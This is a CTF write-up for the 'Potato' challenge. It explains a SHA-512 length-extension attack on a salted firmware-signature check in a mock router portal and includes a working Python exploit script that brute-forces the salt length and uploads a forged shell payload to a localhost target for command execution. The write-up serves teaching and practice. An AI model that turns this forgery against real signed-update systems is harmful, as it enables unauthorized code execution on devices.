


# Potato

This challenge was made by my good friend [flawwan](https://github.com/flawwan/) and me. Here's how we thought this challenge should be solved. 


### Summary

* Uploaded `sh` files are executed if signature matches
* Example file and signature are downloadable
* Signature is calculated: 
  * `sha512( concatenate($SALT, $filecontents) )`
* Unknown salt and salt length
* Signature can be predicted if:
  * The new data is appended to original data
    * The new data will be prepended by junk, but the last row of the original file is a comment, so the junk will be commented out
* Solution: guess the salt length and prepend your payload with a newline.
  * A hint was later released: "9 is a good number". This was the salt length.

### Walkthrough
We are given a link to a router configuration portal by "Potato Router Systems"



The login is admin:admin. This was released as a hint.
Once logged in, we can download the running "firmware" and its signature. We are also able to upload new "firmware", provided that we have a signature for it. 


The contents of the original `firmware.bin`:
``` 
echo 'Welcome to super secure router alpha 0.01'
#Provide a neat motd for the user.

#TODO Add some security checks. This script should be secure. i dunno
```
Seems like the site runs this file to provide the welcome message.

**Note** for later: the last line of the file is a comment (`#`) and does not end with a newline.

The `firmware.sig` is just a sha512 hash:
```c41e06714618b4248a4efa4980a67d2f0b2bb0caaeb7f4240b6e8e11d1d1b6461182713b57d405209cff46ec19c0c7fe931b374e63e822cf8ea933c51b33d760```

We also get to see the PHP used for this upload page. Here, we can see how the signature is calculated. The unknown salt is prepended to the binary contents, and then the sha512 signature is calculated and compared to the uploaded signature. If it's a match, the original firmware is overwritten by the new one.


### Solution
Since we have the original data and its signature, we can use this to append data and predict the signature, provided that we know or can guess the length of `$SALT`. There are multiple different tools for this - In this case we use [HashPump](https://github.com/bwall/HashPump).

```
>>> import hashpumpy
>>> help(hashpumpy.hashpump)
Help on built-in function hashpump in module hashpumpy:

hashpump(...)
    hashpump(hexdigest, original_data, data_to_add, key_length) -> (digest, message)

    Arguments:
        hexdigest(str):      Hex-encoded result of hashing key + original_data.
        original_data(str):  Known data used to get the hash result hexdigest.
        data_to_add(str):    Data to append
        key_length(int):     Length of unknown data prepended to the hash

    Returns:
        A tuple containing the new hex digest and the new message.
>>> hashpumpy.hashpump('ffffffff', 'original_data', 'data_to_add', len('KEYKEYKEY'))
('e3c4a05f', 'original_datadata_to_add')
```

For this to work however, the extension attack must add junk data inbetween the original data and the appended payload. Remember the note from earlier? The last line of the original file is commented out, so the junk data will also be commented out. If our payload starts with a newline, our payload file will be both valid and executed.

So we can create a script which guesses the salt length by incrementing until we no longer get "Bad signature...":
#### exploit.py
```python
#!/usr/bin/python3

import sys
import requests
from hashpumpy import hashpump
from time import sleep

def forge_stuff(salt_length):
    with open("firmware.bin", "r") as fh:
        original_data = fh.read()
    with open("firmware.sig", "r") as fh:
        original_sig = fh.read()

    data_to_add = "\necho hej"

    result = hashpump(original_sig,
                      original_data, 
                      data_to_add, 
                      salt_length)

    with open("payload.sig", "w") as fh:
        fh.write(result[0])

    with open("payload.bin", "wb") as fh:
        fh.write(result[1])


login={"username":"admin", "password":"admin", "submit":""}
s = requests.Session() 
r = s.post("http://localhost:58888/login.php", data=login)
i=1

while "Bad" in r.text:
    forge_stuff(i)
    with open("payload.sig", "rb") as signature:
        with open("payload.bin", "rb") as payload:
            files={ "sig": signature, "bin" : payload}
            r=s.post("http://localhost:58888/update.php", data={"submit":""}, files=files)
            sleep(0.1)
    i+=1

print(r.text)
print("\n\n\nSalt length: %s" % str(i-1))
```

And we find that the salt length is 9.
```
$ ./exploit.py 
...<omitted>...

Salt length: 9
```

Now we have command execution and are able to `cat /flag`.

